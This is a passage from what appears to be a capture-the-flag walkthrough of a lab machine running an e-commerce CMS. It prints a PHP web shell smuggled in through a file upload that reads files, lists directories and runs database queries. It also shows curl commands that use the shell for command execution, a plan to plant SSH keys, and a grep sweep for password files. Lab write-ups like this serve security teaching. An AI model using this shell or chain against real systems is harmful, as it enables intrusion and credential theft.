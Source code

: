 This means that we can connect to the database and run Database commands using our file upload abilities. I used other machine's PHP SQL connection as a syntax of how to write this.

{% code overflow="wrap" %}
```python
files = {
        'vqmod': (rand + ".php", "<?php if (isset($_REQUEST['file'])) {  echo file_get_contents($_REQUEST['file']);} if (isset($_REQUEST['dir'])) {print_r(scandir($_REQUEST['dir']));}  if (isset($_REQUEST['db'])) { $conn = new mysqli('localhost', 'root', 'changethis', 'ecom') or exit; $req = mysqli_query($conn, $_REQUEST['db']); while ($row = $req->fetch_row()) { foreach ($row as $x){echo $x;} echo '\n'; } } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```
{% endcode %}

Then, we can test this:

```
$ curl -G --data-urlencode 'db=select @@version' http://10.129.71.208/shop/admin/../vqmod/xml/7FKEJ.php
5.7.30-0ubuntu0.18.04.1
```

Now that we have access to the database, we can actually use this for RCE with the `exec_cmd` command.

```
$ curl -G --data-urlencode 'db=SELECT exec_cmd("ls");' http://10.129.71.208/shop/admin/../vqmod/xml/7FKEJ.php -o test
$ cat test             
auto.cn
```

Using this, we can write to the `authorized_keys` file of the `mysql` user. Then, we can SSH in as the user.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sysadmin Creds

There's another user `sysadmin` on the machine. I scanned the entire home directory for files containing `password`.&#x20;

```
mysql@compromised:~$ grep -iRl 'password' ./ 2>/dev/null
./mysql/user.frm
./mysql/help_topic.ibd
./mysql/servers.frm
./mysql/help_keyword.ibd
./mysql/user.MYD
./mysql/slave_master_info.frm
./ecom/lc_settings.MYI
./ecom/lc_translations.MYI
./ecom/lc_customers.frm
./ecom/lc_users.frm
./ecom/lc_settings.MYD
./ecom/lc_translations.MYD
```